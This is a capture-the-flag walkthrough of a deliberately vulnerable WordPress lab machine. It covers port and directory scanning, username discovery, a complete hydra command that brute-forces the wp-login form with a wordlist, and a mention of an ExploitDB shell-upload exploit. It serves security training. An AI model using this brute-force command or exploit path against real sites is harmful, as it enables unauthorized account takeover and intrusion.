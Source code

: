 # Blog  
> Billy Joel made a Wordpress blog!  
> Make sure to add ```<your instance IP>  blog.thm``` to your /etc/hosts file  
### Iniital enumeration  

PORT SCAN
```
PORT    STATE SERVICE      REASON  
22/tcp  open  ssh          syn-ack ttl 63  
80/tcp  open  http         syn-ack ttl 63  
139/tcp open  netbios-ssn  syn-ack ttl 63  
445/tcp open  microsoft-ds syn-ack ttl 63  

```
Since this is a wordpress box, we'll use a tool like uniscan to automate directory and file discovery:  

```
===================================================================================================
|
| Directory check:
| [+] CODE: 200 URL: http://blog.thm/admin/
| [+] CODE: 200 URL: http://blog.thm/embed/
| [+] CODE: 200 URL: http://blog.thm/feed/
| [+] CODE: 200 URL: http://blog.thm/login/
| [+] CODE: 200 URL: http://blog.thm/note/
| [+] CODE: 200 URL: http://blog.thm/rss/
| [+] CODE: 200 URL: http://blog.thm/welcome/
| [+] CODE: 200 URL: http://blog.thm/wp-admin/
===================================================================================================
|                                                                                                   
| File check:
| [+] CODE: 200 URL: http://blog.thm/admin/index.php
| [+] CODE: 200 URL: http://blog.thm/favicon.ico
| [+] CODE: 200 URL: http://blog.thm/index.php
| [+] CODE: 200 URL: http://blog.thm/license.txt
| [+] CODE: 200 URL: http://blog.thm/readme.html
| [+] CODE: 200 URL: http://blog.thm/robots.txt
| [+] CODE: 200 URL: http://blog.thm/search/htx/SQLQHit.asp
| [+] CODE: 200 URL: http://blog.thm/search/htx/sqlqhit.asp
| [+] CODE: 200 URL: http://blog.thm/search/SQLQHit.asp
| [+] CODE: 200 URL: http://blog.thm/search/sqlqhit.asp
===================================================================================================
```
Looking at the blog, we see there's an author called Karen Wheeler.
![image](https://user-images.githubusercontent.com/65077960/124903055-793ffa80-dfdb-11eb-9fed-3f1ea59192a4.png)

Looking at the URL of her author page, we can see the username kwheel, we'll take a note of that as we may be able ot use that in futurue.
Following the syntax of her username, we can infer that Billy Joel's username is probably bjoel, let's try it.
![image](https://user-images.githubusercontent.com/65077960/124903691-1f8c0000-dfdc-11eb-9eaa-a8b369d632df.png)

So we have two usernames that we can potentially use. Let's try bruteforce kwheels' password.

```
hydra -l kwheel -P rockyou.txt blog.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V
```
We have to specify the criteria of a failed attempt since Wordpress doesn't give us a HTTP code such as 403, it always returns 200.
![image](https://user-images.githubusercontent.com/65077960/124904699-2ebf7d80-dfdd-11eb-9533-6e1a755339d9.png)
  
After logging in, we can see there's not a great deal here. Let's take a step back and look at the wordpress version (5.0.0).
We can google the version and see associated exploits.
![image](https://user-images.githubusercontent.com/65077960/124905832-5531e880-dfde-11eb-8b30-d18f78c06c81.png)
Looking at exploitDB, we can see there's a shell upload vuln that we can use (now that we have credentials). Let's try it.
It worked, time to look for the user flag.



